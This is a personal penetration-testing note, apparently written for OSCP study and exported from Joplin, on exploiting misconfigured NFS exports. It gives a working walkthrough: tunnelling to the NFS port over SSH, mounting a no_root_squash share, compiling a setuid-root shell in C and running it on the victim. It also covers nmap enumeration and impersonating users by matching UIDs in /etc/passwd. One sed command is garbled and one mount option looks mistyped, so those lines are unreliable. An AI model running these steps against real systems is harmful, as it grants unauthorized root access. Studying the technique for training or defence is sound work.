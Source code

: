 NFS Vulns

<ins>Vulnerabilities</ins>

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no\_root\_squash-misconfiguration-pe](https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)

Read the /etc/exports file, if you find some directory that is configured as no\_root\_squash, then you can access it from as a client and write inside that directory as if you were the local root of the machine.

**no\_root\_squash**: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

**no\_all\_squash**: This is similar to no\_root\_squash option but applies to non-root users. Imagine, you have a shell as nobody user; checked /etc/exports file; no\_all\_squash option is present; check /etc/passwd file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.

<ins>NFS; no\_root\_squash, insecure, rw</ins>

If /etc/exports have a line e.g.

> /srv/pelota 192.168.42.0/24(insecure,rw)
> /srv/pelota 127.0.0.1/32(no\_root\_squash,insecure,rw)

Then NFS is being exported and you have ssh access to the machine. You can use your attacker machine (login as root) to run:

> ssh -f -N megumin@192.168.42.43 -L 2049:127.0.0.1:2049
> mount -t nfs 127.0.0.1:/srv/pelota my_share
> cd my_share
> cat > shell.c<<EOF
> #include &lt;unistd.h&gt;
> int main(){
> setuid(0);
> setgid(0);
> system("/bin/bash");
> }
> EOF
> gcc shell.c -o shell
> chmod u+s shell

Now inside a ssh session on the victim machine i.e. 192.168.42.32 in this case

> cd /srv/pelota
> ./shell
> 
> Use 'id' to identify what user you are

<ins>Example of Vuln config; OSCP EXAM HAPPENED</ins>

If you wish to use NSE scripts:nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254

![7a58718293ff72b88d3e48b60dfc46d7.png](:/a6a3e955d5ca4466a074924b94657fda)

This case -- /home is being shared, and can be accessed by mounting it on our kali machine.

To do so:

> mkdir home;
> 
> sudo mount -I nolock $IP/home ~/home/;

- -nolock will disable file locking

If we try to view files within that mounted folder, there won't be any permissions granted

What we can do is to replicate the user by creating a user with the same UUID, su to that user and access the file

> `sudo adduser pwn; sudo sed 0u 0e 's/$Created\_UUID/$permission\_UUID/g' /etc/passwd; su pwn; cat $file`

id: 5c154102202a4bc2810ada55f25852e7
parent_id: 27b595c9aae647aba407fed241a81f90
created_time: 2022-01-16T09:02:55.853Z
updated_time: 2022-08-21T14:20:19.800Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-16T09:02:55.853Z
user_updated_time: 2022-08-21T14:20:19.800Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1